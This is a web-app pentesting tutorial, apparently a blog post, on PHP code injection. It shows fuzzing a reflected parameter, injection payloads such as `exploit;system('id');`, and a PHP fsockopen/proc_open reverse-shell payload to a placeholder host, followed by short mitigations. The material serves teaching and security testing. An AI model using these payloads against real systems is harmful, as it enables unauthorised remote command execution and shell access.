 ```yaml
---
title: Code Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Code Injection]
tags: [webapp, pentesting, Owasp, code, injection]     # TAG names should always be lowercase
---
```


# Code Injection

Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. Code Injection differs from Command Injection in that an attacker is only limited by the functionality of the injected language itself. If an attacker is able to inject PHP code into an application and have it executed, they are only limited by what PHP is capable of. Command injection consists of leveraging existing code to execute commands, usually within the context of a shell.

# Detection

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei2.png)

The webapp seems to take in user supplied input and reflect it on the page. if we replace test with any text we want, we will have our text displayed on the page. Let's replace it with `exploit`.

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei3.png)

We got `exploit` displayed on the page.

Let's conduct a fuzzing on the parameter to see if we can break something and get an error, or if we can determine some anomality from the response. There are lot of characters that can be used such as `; , || ' @ / > < $...`. We will start with `;`.

We are going to supply `exploit;` and see if we can get something interesting

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei4.png)

Well, it reflected the text without `;`, it supposed to display `exploit;` not `exploit` on the page, so there must be something behind.

Let's change the input to be like this `;exploit` and see again 

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei5.png)

As you can see nothing was displayed, which was supposed to display `;exploit` on the page. This means our input broke something in the backend, this webapp might be vulnerable to either `code injection` or `command injection` because `;` character is mostly used in shell or in code that is needed to evaluate string as a code. 

Let's test for code injection. Since this is php, we will make use of `phpinfo()` function to test for code injection, which if successfull will display plenty information about php and the server itself. We will supply `exploit;phpinfo();`

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei6.png)

We got it. This means the webapp is vulnerable to code injection.

# Exploitation

## Echo'ying text

Let's see if we can execute php code by supplying this `exploit;echo 'yes';`

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei7.png)

It's been executed, you can see `yes` has been displayed on the page.

## System Command

php has `system` function that will allow us to execute shell command in the backend. Let's supply `exploit;system('id');` 

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei8.png)

Well, `id` was executed.

## Reverse Shell

To get a reverse shell, we will intercept the request in burp suite, setup our listerner, supply our payload and then forward it to the server.

our payload here

``` bash
$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

```

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei9.png)


![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei10.png)

We got reverse shell.

# Mitigations

- Avoid using unsafe functions in source code.
- Utilize Whitelisting for input validation.
- Escaping All User Supplied Input.

# References

-  [https://owasp.org/www-community/attacks/Code_Injection](https://owasp.org/www-community/attacks/Code_Injection)
